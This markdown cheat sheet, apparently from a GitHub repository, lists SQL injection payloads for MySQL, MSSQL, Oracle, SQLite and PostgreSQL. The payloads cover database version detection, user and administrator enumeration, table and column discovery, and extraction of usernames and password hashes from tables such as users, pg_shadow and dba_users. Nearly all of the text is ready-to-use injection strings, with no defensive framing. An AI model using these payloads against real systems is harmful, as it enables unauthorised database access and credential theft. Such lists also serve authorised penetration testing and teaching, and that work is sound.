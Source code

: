 # SQL Injection Payloads for Database Enumeration

## Database Version Detection

### MySQL
```sql
' UNION SELECT @@version, NULL-- -
' UNION SELECT version(), NULL-- -
```

Current database name:
```sql
' UNION SELECT database(), NULL-- -
```

### MSSQL
```sql
' UNION SELECT @@version, NULL-- -
```

Current database name:
```sql
' UNION SELECT db_name(), NULL-- -
```

### Oracle
```sql
SELECT * FROM v$version;
SELECT banner FROM v$version;
SELECT version FROM v$instance;
' UNION SELECT banner FROM v$version --
```

### SQLite
```sql
SELECT sqlite_version();
```

### PostgreSQL
```sql
SELECT version();
' UNION SELECT version() --
```

## Database Banner Information

### MySQL
```sql
SELECT @@version_comment;
SELECT VERSION();
SELECT @@global.version_comment;
SELECT @@version_compile_os;
SELECT @@version_compile_machine;
' UNION SELECT @@version_comment --
```

### PostgreSQL
```sql
SELECT version();
SELECT current_setting('server_version');
' UNION SELECT version() --
```

### MSSQL
```sql
SELECT @@VERSION;
SELECT SERVERPROPERTY('ProductVersion');
SELECT SERVERPROPERTY('Edition');
SELECT SERVERPROPERTY('EngineEdition');
' UNION SELECT @@VERSION --
```

### Oracle
```sql
SELECT * FROM v$version;
SELECT banner FROM v$version;
SELECT version FROM v$instance;
' UNION SELECT banner FROM v$version --
```

### SQLite
```sql
SELECT sqlite_version();
PRAGMA database_list;
' UNION SELECT sqlite_version() --
```

## Database Administrator Information

### MySQL
```sql
' UNION SELECT user(), NULL-- -
' UNION SELECT host, user FROM mysql.user-- -       # Users with privileges
' UNION SELECT user FROM mysql.user WHERE Super_priv='Y'-- -
```

### MSSQL
```sql
' UNION SELECT SYSTEM_USER, NULL-- -
' UNION SELECT name FROM master.sys.server_principals WHERE is_disabled = 0 AND type_desc = 'SQL_LOGIN' AND IS_SRVROLEMEMBER('sysadmin', name) = 1-- -  # Admin roles
```

### PostgreSQL
```sql
SELECT usename FROM pg_user;
SELECT current_user;
SELECT session_user;
SELECT user;
' UNION SELECT current_user --
```

### Oracle
```sql
SELECT username FROM all_users;
SELECT user FROM dual;
SELECT sys_context('USERENV', 'CURRENT_USER') FROM dual;
SELECT sys_context('USERENV', 'SESSION_USER') FROM dual;
' UNION SELECT username FROM all_users --
```

### SQLite
```sql
SELECT CURRENT_USER;
SELECT user;
' UNION SELECT CURRENT_USER --
```

## General Data Extraction Payloads

### MySQL
```sql
' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database()-- -
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='TABLE_NAME'-- -
' UNION SELECT username, password FROM users-- -
```

### MSSQL
```sql
' UNION SELECT table_name, NULL FROM information_schema.tables-- -
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='TABLE_NAME'-- -
' UNION SELECT username, password FROM dbo.users-- -
```

### PostgreSQL
```sql
SELECT table_name FROM information_schema.tables WHERE table_schema='public';
SELECT column_name FROM information_schema.columns WHERE table_name='users';
SELECT usename, passwd FROM pg_shadow;
SELECT usename FROM pg_user;
```

System information:
```sql
SELECT version();
SELECT current_database();
SELECT inet_server_addr();
```

### Oracle
```sql
SELECT table_name FROM all_tables;
SELECT column_name FROM all_tab_columns WHERE table_name='USERS';
SELECT username, password FROM dba_users;
SELECT username FROM all_users;
```

System information:
```sql
SELECT * FROM v$version;
SELECT host_name FROM v$instance;
```